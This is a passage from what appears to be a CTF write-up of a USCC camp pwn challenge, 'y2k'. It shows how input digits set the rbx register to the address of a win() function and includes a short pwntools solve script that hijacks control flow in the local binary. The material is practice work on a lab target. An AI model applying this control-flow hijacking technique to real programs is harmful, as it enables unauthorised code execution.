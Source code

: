##### Case 8
Adds `0x1` to `rbx`

#### Case 9
Adds `0x2` to `rbx`

Now that we understood what each digit does, how can we figure out the code here? I pointed out that [case 5](#case-5) called a function at `rbx`. Well we do have a `win()` function, so let's grab the address of that.

```
gdb ./y2k
> p win
$1 = {<text variable, no debug info>} 0x401276 <win>
```

Okay, now that we got the address, let's find out how we can set `rbx` to `0x401276` and call it.

Going to [case 1](#case-1), we can set `rbx` to `0x400000`. Next, let's append `0x1270` to `rbx` via [case 2](#case-2), setting `rbx` to `0x401270`.

We still need `0x6` more bytes. Luckily, we've only used **2/7** of our digits. We can go ahead and go to [case 9](#case-9) three times, setting `rbx` to `0x401276`.

Now there's only one more thing to do, call `win()`! All we need is to go to [case 5](#case-5) and that should be it.

#### Solve Script
```py
from pwn import *

p = process('./y2k')

# Send the year
p.sendline(b'327682000')

# Send the code
p.sendline(b'1')
p.sendline(b'2')
p.sendline(b'9')
p.sendline(b'9')
p.sendline(b'9')
p.sendline(b'5')

p.interactive()
```

## Conclusion
The USCC camp was a great experience and was an opportunity I'm glad that I took advantage of. Again, I'd like to thank those responsible for the USCC, its partners, and the BisonSquad Team, especially the pwn challenge creator :grin:.
